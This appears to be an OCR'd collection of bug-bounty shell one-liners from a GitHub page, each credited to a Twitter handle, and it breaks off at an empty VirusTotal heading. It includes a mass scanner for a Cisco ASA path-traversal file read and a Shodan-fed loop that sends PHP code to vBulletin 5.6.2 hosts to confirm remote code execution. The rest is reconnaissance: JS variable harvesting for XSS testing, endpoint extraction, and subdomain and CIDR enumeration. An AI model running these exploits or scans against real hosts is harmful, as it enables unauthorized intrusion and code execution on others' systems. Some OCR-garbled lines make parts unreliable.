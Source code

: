 while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt

###vBulletin 5.6.2 – ‘widget_tabbedContainer_tab_panel’ Remote Code Execution

@Madrobot_

shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;

###Find JS Files

@D0cK3rG33k

assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done

###Extract Endpoints from JS File

@renniepak

cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

###Get CIDR & Orgz from Target Lists

@steve_mcilwain

for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done

###Get Subdomains from RapidDNS.io

@andirrahmani1

curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u

## Get Subdomains from BufferOver.run

@_ayoubfathi_

curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u

@AnubhavSingh_

curl "https://tls.bufferover.run/dns?q=$DOMAIN" | jq -r .Results'[]' | rev | cut -d ',' -f1 | rev | sort -u | grep "\.$DOMAIN"

###Get Subdomains from Riddler.io

@pikpikcu

curl -s "https://riddler.io/search/exportcsv?q=pld:domain.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u

###Get Subdomains from VirusTotal
